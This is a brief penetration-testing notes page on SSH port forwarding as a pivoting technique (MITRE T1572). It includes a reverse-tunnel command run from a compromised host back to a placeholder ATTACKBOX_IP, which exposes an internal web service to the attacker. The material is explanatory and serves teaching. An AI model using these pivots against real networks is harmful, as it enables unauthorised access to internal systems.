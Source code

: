 ```yaml
---
description: MITRE ATT&CK™ Protocol Tunneling  - ID T1572 
---
```

# Port Forwarding

## Theory
Port Forwarding, consist of using any compromised host as a jump box to pivot to other hosts. It is expected that some machines will have more network permissions than others.

### SSH tunneling
SSH port forwarding is a mechanism in SSH for tunneling application ports from the client machine to the server machine, or vice versa.


## Practice
Since we'll be making a connection back to our attacker's machine, we'll want to create a user in it without access to any console for tunnelling and set a password to use for creating the tunnels:

```bash
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```
{% tabs %}
{% tab title="SSH Local-Forwarding" %}
- Local forwarding is used to **forward a port from the client machine to the server machine**. Basically, the SSH client listens for connections on a configured port, and when it receives a connection, it tunnels the connection to an SSH server. The server connects to a configurated destination port, possibly on a different machine than the SSH server.  
  
- This example opens a connection to the jump-server.net, and forwards any connection to port 80 on the local machine to port 80 on intra.example.com.
```bash
veresk@kali$ ssh -L *:80:intra.example.com:80 user@jump-server.net -fN
```
{% endtab %}

{% tab title="SSH Remote-Forwarding" %}
- Remote port forwarding allows a client machine of an SSH connection to redirect one of its ports to a port on the server, or to redirect a port of a network machine from the SSH server to a port local to the server.  
  
- We can by, example, on a compromised computer (jump-server) connect back to the attackbox with a reverse port forward using the following command.  
- This example produce the same result as previously seen with Local-Forwarding. Any connection on ATTACKBOX_IP:8000 will be redirected on intra.example.com:80
```bash
PC> ssh -R 8000:intra.example.com:80 tunneluser@ATTACKBOX_IP -fN
```
{% endtab %}


{% endtabs %}

## Resources

{% embed url="https://attack.mitre.org/techniques/T1572/" %}
{% embed url="https://podalirius.net/en/articles/ssh-port-forwarding/" %}

